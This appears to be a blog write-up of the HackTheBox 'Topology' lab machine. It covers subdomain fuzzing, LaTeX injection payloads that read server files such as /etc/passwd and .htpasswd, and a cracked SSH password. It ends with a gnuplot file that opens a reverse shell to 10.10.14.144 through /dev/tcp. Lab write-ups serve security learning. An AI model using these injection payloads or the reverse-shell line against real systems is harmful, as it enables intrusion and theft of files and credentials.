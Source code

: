 ```yaml
---
layout: post
title:  "Writeup of Topology (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox topology latex gnuplot pspy
---
```



# Discovery

Looking through the website on **:80**, there is an email and domain **lklein@topology.htb**.

Another domain: **latex.topology.htb**.

`ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -fs 6767 -o subdomains.scan`

```
stats, dev
```

`dev.topology.htb` needs authentication.

`stats.topology.htb` displays two images.

# Attacking latex

`GET /equation.php?eqn=\input{/etc/passwd}&submit= `

```
Illegal command detected. Sorry.
```

There is a file `http://latex.topology.htb/equationtest.log`.

```
pdfTeX, Version 3.14159265-2.6-1.40.20 (TeX Live 2019/Debian) 
```

**We can read one line of a file using:**

`\newread\file \file\openin\file=/etc/passwd \read\file to\fileline \text{\fileline} \closein\file`

**Reading longer files using:**

`\newcommand{\y}{\read\file to\x \text{\x}} \newread\file \openin\file=/etc/passwd \y\y\y\y\y\y\y\y\y\y\y\y\y\y\y\y\y\y\ \closein\file`

**Even better pretty-printing whole files:**

`$ \lstinputlisting[caption=test]{/etc/passwd} $`

**/etc/passwd:** [image](etcpasswd.png)

**../equation.php:** [image](source.png)

`/var/www/html/index.html` exists

`/var/www/latex/equation.php` exists

`/var/www/dev/.htaccess` exists

```
AuthType Basic
AuthUserFile /var/www/dev/.htpasswd
Require valid-user
```

**/var/www/dev/.htpasswd:** [image](htpasswd.png)

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO
```

**Cracked:** `vdaisley:calculus20`

# SSH - vdaisley

`ssh vdaisley@10.10.11.217`

**vdaisley:calculus20**

#

**Using pspy we see root executing:**

`/bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;`

[Gnuplot can execute system commands.](https://stackoverflow.com/questions/53519962/how-to-run-a-shell-command-in-gnuplot-and-place-the-output-in-new-file)

`echo 'system("bash -c '"'bash -i >& /dev/tcp/10.10.14.144/9001 0>&1'"'")' > /opt/gnuplot/test.plt`

`root.txt: <redacted>`
